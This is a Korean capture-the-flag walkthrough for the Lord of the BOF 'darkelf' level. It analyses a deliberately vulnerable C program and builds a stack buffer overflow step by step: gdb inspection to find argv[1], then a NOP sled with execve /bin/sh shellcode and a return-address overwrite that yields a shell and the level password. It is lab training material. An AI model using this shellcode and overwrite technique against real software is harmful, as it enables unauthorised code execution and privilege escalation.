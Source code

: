 ============================================================================================================
[lob] wolfman
============================================================================================================



.. uml::
    
    @startuml

    start

    :Source Analysis;

    :Memory Structure;

    :Segmentation fault;

    :argv[1] 주소 확인;

    :RET 주소를 argv[1] 주소로 변경하여 공격 진행;
    
    stop

    @enduml


|

Source Analysis
============================================================================================================

해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
        The Lord of the BOF : The Fellowship of the BOF
        - darkelf
        - egghunter + buffer hunter + check length of argv[1]
    */

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
            printf("argument is too long!\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
    }


|

Memory Structure
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 됩니다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- strcpy
    SFP     (4byte)
    RET     (4byte)
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================


|

Segmentation fault
============================================================================================================

strcpy로 인해 입력한 값이 버퍼보다 클 경우 오버플로우가 발생됩니다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행해야 합니다.

.. code-block:: console

    $ ./darkelf `python -c 'print "a"*47'`

    stack is still your friend.

    $ ./darkelf `python -c 'print "a"*47+"\xbf"'`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault


|

exploit
============================================================================================================

argv[1] 주소 확인
------------------------------------------------------------------------------------------------------------

앞의 조건에 argv[1][47]값이 \\xbf인지 확인하기 때문에, gdb를 이용하여 argv[1]이 가리키는 주소를 찾습니다.

.. code-block:: console

    (gdb) b *main
    Breakpoint 1 at 0x8048500

    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/wolfman/darkelf2 `python -c 'print "a"*47+"\xbf"'`
    /bin/bash: /home/goblin/.bashrc: Permission denied

    Breakpoint 1, 0x8048500 in main ()

    (gdb) stepi
    0x8048501 in main ()

    (gdb) i reg $esp
    esp            0xbffffad8       -1073743144

    (gdb) i reg $ebp
    ebp            0xbffffaf8       -1073743112

    (gdb) x/100x $esp

    ==========================================================================
    0xbffffad8:     0xbffffaf8      0x400309cb      0x00000002      0xbffffb24
    0xbffffae8:     0xbffffb30      0x40013868      0x00000002      0x08048450
    0xbffffaf8:     0x00000000      0x08048471      0x08048500      0x00000002
    0xbffffb08:     0xbffffb24      0x08048390      0x0804864c      0x4000ae60
    0xbffffb18:     0xbffffb1c      0x40013e90      0x00000002      0xbffffc1a
    0xbffffb28:     0xbffffc31      0x00000000      0xbffffc62      0xbffffc84
    0xbffffb38:     0xbffffc8e      0xbffffc9c      0xbffffcbb      0xbffffccb
    0xbffffb48:     0xbffffce4      0xbffffd00      0xbffffd1f      0xbffffd2a
    0xbffffb58:     0xbffffd38      0xbffffd7a      0xbffffd8d      0xbffffda2
    0xbffffb68:     0xbffffdb2      0xbffffdbf      0xbffffddd      0xbffffde8
    0xbffffb78:     0xbffffdf9      0xbffffe0b      0xbffffe1a      0xbffffe22
    0xbffffb88:     0x00000000      0x00000003      0x08048034      0x00000004
    0xbffffb98:     0x00000020      0x00000005      0x00000006      0x00000006
    0xbffffba8:     0x00001000      0x00000007      0x40000000      0x00000008
    0xbffffbb8:     0x00000000      0x00000009      0x08048450      0x0000000b
    0xbffffbc8:     0x000001f9      0x0000000c      0x000001f9      0x0000000d
    0xbffffbd8:     0x000001f9      0x0000000e      0x000001f9      0x00000010
    0xbffffbe8:     0x0fabfbff      0x0000000f      0xbffffc15      0x00000000
    0xbffffbf8:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffc08:     0x00000000      0x00000000      0x00000000      0x38366900
    0xbffffc18:     0x682f0036      0x2f656d6f      0x666c6f77      0x2f6e616d
    0xbffffc28:     0x6b726164      0x32666c65      0x61616100      0x61616161
                                                          ^               ^
    0xbffffc38:     0x61616161      0x61616161      0x61616161      0x61616161
                          ^               ^               ^ argv[1] = 0xbffffc41
    0xbffffc48:     0x61616161      0x61616161      0x61616161      0x61616161
    0xbffffc58:     0x61616161      0x61616161      0x454c00bf      0x504f5353
    ==========================================================================

|

RET 주소를 argv[1] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- "\x90"*19 + shellcode
    SFP     (4byte)  <- shellcode
    RET     (4byte)  <- argv[1] address
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|

오버플로우시 RET 주소를 argv[1]의 주소로 변경하여 해당 쉘코드가 실행되도록 합니다. argv[1]의 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있습니다.

nop (19 byte) + shellcode (25 byte) + argv[1] address

.. code-block:: console

    $ ./darkelf `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x41\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀A▒▒▒

    bash$ whoami
    darkelf
    bash$ my-pass
    euid = 506
    kernel crashed

